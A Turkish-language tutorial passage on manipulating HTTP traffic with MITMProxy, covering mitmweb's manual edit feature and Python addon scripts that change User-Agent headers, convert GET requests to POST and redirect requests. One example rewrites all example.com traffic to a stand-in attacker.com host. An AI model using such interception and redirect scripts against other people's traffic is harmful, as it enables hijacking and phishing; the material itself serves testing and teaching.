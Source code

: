mitmweb
Mitmweb'i başlatın:
http://127.0.0.1:8081 adresine gidin.
Bir isteği veya yanıtı seçin, sağ üstte Edit butonuna tıklayın.
Değişiklik yaptıktan sonra "Save" butonuna basarak akışı manipüle edin.

Sonuç
MITMProxy ile trafik manipülasyonu yapmanın birçok yolu var:
İstek manipülasyonu (User-Agent değiştirme, yönlendirme, form verisi değiştirme)
Yanıt manipülasyonu (HTML içeriğini değiştirme, JSON API manipülasyonu)
Trafik geciktirme ve yönlendirme
Mitmweb arayüzü ile manuel düzenleme



MITMProxy ile Otomatik Akış Değiştirme
MITMProxy'yi kullanarak trafik akışını otomatik olarak değiştirmek, yani istek (request) ve yanıt (response) manipülasyonlarını otomatikleştirmek mümkündür. Bunu yapmak için Python scriptleri (addon) kullanabiliriz.

1. MITMProxy Addon ile Otomatik Akış Değiştirme
MITMProxy, "addons" mantığını kullanarak akışı otomatik olarak değiştiren Python scriptleri çalıştırabilir. Bu scriptleri yazıp mitmproxy veya mitmweb ile entegre edebiliriz.
Aşağıda bazı otomatik manipülasyon senaryolarını paylaşacağım.

2. Otomatik İstek (Request) Manipülasyonu
İstekleri otomatik olarak değiştirmek için request(flow) fonksiyonu kullanılır.
🔹 Örnek 1: User-Agent Değiştirme
İsteklere otomatik olarak farklı bir User-Agent eklemek:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 flow.request.headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
📌 Bu script, tüm isteklerin User-Agent'ını değiştirir.

🔹 Örnek 2: Otomatik GET → POST Dönüştürme
Eğer tüm GET isteklerini otomatik olarak POST isteğine dönüştürmek isterseniz:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if flow.request.method == "GET":
 flow.request.method = "POST"
 flow.request.content = b"modified\_data=1" # Gönderilen veri

📌 Bu betik, tüm GET isteklerini POST olarak değiştirir.

🔹 Örnek 3: Otomatik Yönlendirme (Redirect)
Tüm example.com isteklerini attacker.com adresine yönlendirmek için:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if "example.com" in flow.request.pretty\_url:
 flow.request.url = flow.request.url.replace("example.com", "attacker.com")
📌 Bu betik, tüm example.com isteklerini attacker.com adresine yönlendirir.
